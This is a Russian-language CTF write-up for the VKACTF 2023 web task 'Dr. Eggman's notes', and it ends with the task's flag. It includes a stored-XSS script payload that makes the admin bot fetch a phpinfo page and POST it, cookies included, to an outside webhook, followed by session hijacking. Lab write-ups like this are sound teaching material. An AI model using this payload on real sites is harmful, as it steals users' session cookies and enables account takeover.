




## Заметки доктора Эггмана

| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKACTF 2023 | Заметки доктора Эггмана | Web | Easy |

### Описание

> Автор: Po4est
>
> Соник вновь противостоит доктору Эггману. На этот раз он нашел его ежедневник с заметками, но прочитать его не смог. Помоги Сонику узнать, что затевает этот негодяй!!!

### Уязвимость

> [XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

### Решение


Нам предоставлен веб сайт, с возможностью оставлять заметки.

Уязвимость возникает в поле создания заметок, из-за небезопасной обработки введенного текста.

Обычно, на всех сайтах присутствует файл robots.txt, переядя на него, видим ручку /info.php



Так как куки на сайте имеют флажок httponly, через js их украсть не полуится, но, если мы перейдем на ручку /info.php, сможем увидеть phpinfo(), который отображает переменные окружения и имеет переменную HTTP_COOKIE, с помощью которой мы и украдем куки админа.



Теперь можем приступать к написанию нагрузки, нам нужно, чтобы бот зашел на /info.php и отправил содержимое страницы нам на вебхук.
Создаем заметку с вот такой нагрузкой.
```
<script>
fetch('http://TASK_IP/info.php')
  .then(response => response.text())
  .then(data => {
    fetch('https://webhook', {
      method: 'POST',
      body: data
    });
  });
</script>
```
На сайте реализована возможность открыть пост по его id.

Дело за малым. Отправляем ссылку на наш пост с нагрузкой боту и получаем данные на вебхук.



После получения кук админа, просто подменяем их у себя в браузере, обновляем страницу, и вуаля, флаг у нас.

### Флаг

```
vka{I_1ik3_7o_r3ad_o7h3r_p3op13's_no73s}
```